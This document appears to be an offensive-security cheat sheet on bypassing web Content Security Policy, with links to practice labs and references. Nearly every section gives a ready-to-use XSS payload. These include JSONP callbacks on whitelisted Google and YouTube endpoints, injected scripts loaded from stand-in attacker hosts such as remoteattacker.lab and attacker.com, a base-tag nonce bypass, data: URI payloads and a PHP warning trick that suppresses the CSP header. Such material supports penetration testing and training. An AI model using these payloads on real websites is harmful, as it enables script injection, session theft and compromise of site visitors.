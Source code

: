 # CSP Bypass

> A Content Security Policy (CSP) is a security feature that helps prevent cross-site scripting (XSS), data injection attacks, and other code-injection vulnerabilities in web applications. It works by specifying which sources of content (like scripts, styles, images, etc.) are allowed to load and execute on a webpage.

## Summary

- [CSP Detection](#csp-detection)
- [Bypass CSP using JSONP](#bypass-csp-using-jsonp)
- [Bypass CSP default-src](#bypass-csp-default-src)
- [Bypass CSP inline eval](#bypass-csp-inline-eval)
- [Bypass CSP unsafe-inline](#bypass-csp-unsafe-inline)
- [Bypass CSP script-src self](#bypass-csp-script-src-self)
- [Bypass CSP script-src data](#bypass-csp-script-src-data)
- [Bypass CSP nonce](#bypass-csp-nonce)
- [Bypass CSP header sent by PHP](#bypass-csp-header-sent-by-php)
- [Labs](#labs)
- [References](#references)

## CSP Detection

Check the CSP on [https://csp-evaluator.withgoogle.com](https://csp-evaluator.withgoogle.com) and the post : [How to use Google’s CSP Evaluator to bypass CSP](https://websecblog.com/vulns/google-csp-evaluator/)

## Bypass CSP using JSONP

**Requirements**:

- CSP: `script-src 'self' https://www.google.com https://www.youtube.com; object-src 'none';`

**Payload**:

Use a callback function from a whitelisted source listed in the CSP.

- Google Search: `//google.com/complete/search?client=chrome&jsonp=alert(1);`
- Google Account: `https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)`
- Google Translate: `https://translate.googleapis.com/$discovery/rest?version=v3&callback=alert();`
- Youtube: `https://www.youtube.com/oembed?callback=alert;`
- [Intruders/jsonp_endpoint.txt](Intruders/jsonp_endpoint.txt)
- [JSONBee/jsonp.txt](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt)

```js
<script/src=//google.com/complete/search?client=chrome%26jsonp=alert(1);>"
```

## Bypass CSP default-src

**Requirements**:

- CSP like `Content-Security-Policy: default-src 'self' 'unsafe-inline';`,

**Payload**:

`http://example.lab/csp.php?xss=f=document.createElement%28"iframe"%29;f.id="pwn";f.src="/robots.txt";f.onload=%28%29=>%7Bx=document.createElement%28%27script%27%29;x.src=%27//remoteattacker.lab/csp.js%27;pwn.contentWindow.document.body.appendChild%28x%29%7D;document.body.appendChild%28f%29;`

```js
script=document.createElement('script');
script.src='//remoteattacker.lab/csp.js';
window.frames[0].document.head.appendChild(script);
```

Source: [lab.wallarm.com](https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa)

## Bypass CSP inline eval

**Requirements**:

- CSP `inline` or `eval`

**Payload**:

```js
d=document;f=d.createElement("iframe");f.src=d.querySelector('link[href*=".css"]').href;d.body.append(f);s=d.createElement("script");s.src="https://[YOUR_XSSHUNTER_USERNAME].xss.ht";setTimeout(function(){f.contentWindow.document.head.append(s);},1000)
```

Source: [Rhynorater](https://gist.github.com/Rhynorater/311cf3981fda8303d65c27316e69209f)

## Bypass CSP script-src self

**Requirements**:

- CSP like `script-src self`

**Payload**:

```js
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

Source: [@akita_zen](https://twitter.com/akita_zen)

## Bypass CSP script-src data

**Requirements**:

- CSP like `script-src 'self' data:` as warned about in the official [mozilla documentation](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src).

**Payload**:

```javascript
<script src="data:,alert(1)">/</script>
```

Source: [@404death](https://twitter.com/404death/status/1191222237782659072)

## Bypass CSP unsafe-inline

**Requirements**:

- CSP: `script-src https://google.com 'unsafe-inline';`

**Payload**:

```javascript
"/><script>alert(1);</script>
```

## Bypass CSP nonce

**Requirements**:

- CSP like `script-src 'nonce-RANDOM_NONCE'`
- Imported JS file with a relative link: `<script src='/PATH.js'></script>`

**Payload**:

- Inject a base tag.

  ```html
  <base href=http://www.attacker.com>
  ```

- Host your custom js file at the same path that one of the website's script.

  ```ps1
  http://www.attacker.com/PATH.js
  ```

## Bypass CSP header sent by PHP

**Requirements**:

- CSP sent by PHP `header()` function

**Payload**:

In default `php:apache` image configuration, PHP cannot modify headers when the response's data has already been written. This event occurs when a warning is raised by PHP engine.

Here are several ways to generate a warning:

- 1000 $_GET parameters
- 1000 $_POST parameters
- 20 $_FILES

If the **Warning** are configured to be displayed you should get these:

- **Warning**: `PHP Request Startup: Input variables exceeded 1000. To increase the limit change max_input_vars in php.ini. in Unknown on line 0`
- **Warning**: `Cannot modify header information - headers already sent in /var/www/html/index.php on line 2`

```ps1
GET /?xss=<script>alert(1)</script>&a&a&a&a&a&a&a&a...[REPEATED &a 1000 times]&a&a&a&a
```

Source: [@pilvar222](https://twitter.com/pilvar222/status/1784618120902005070)

## Labs

- [Root Me - CSP Bypass - Inline Code](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Inline-code)
- [Root Me - CSP Bypass - Nonce](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce)
- [Root Me - CSP Bypass - Nonce 2](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce-2)
- [Root Me - CSP Bypass - Dangling Markup](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Dangling-markup)
- [Root Me - CSP Bypass - Dangling Markup 2](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Dangling-markup-2)
- [Root Me - CSP Bypass - JSONP](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-JSONP)

## References

- [Airbnb – When Bypassing JSON Encoding, XSS Filter, WAF, CSP, and Auditor turns into Eight Vulnerabilities - Brett Buerhaus (@bbuerhaus) - March 8, 2017](https://buer.haus/2017/03/08/airbnb-when-bypassing-json-encoding-xss-filter-waf-csp-and-auditor-turns-into-eight-vulnerabilities/)
- [D1T1 - So We Broke All CSPs - Michele Spagnuolo and Lukas Weichselbaum - 27 Jun 2017](http://web.archive.org/web/20170627043828/https://conference.hitb.org/hitbsecconf2017ams/materials/D1T1%20-%20Michele%20Spagnuolo%20and%20Lukas%20Wilschelbaum%20-%20So%20We%20Broke%20All%20CSPS.pdf)
- [Making an XSS triggered by CSP bypass on Twitter - wiki.ioin.in(查看原文) - 2020-04-06](https://www.buaq.net/go-25883.html)
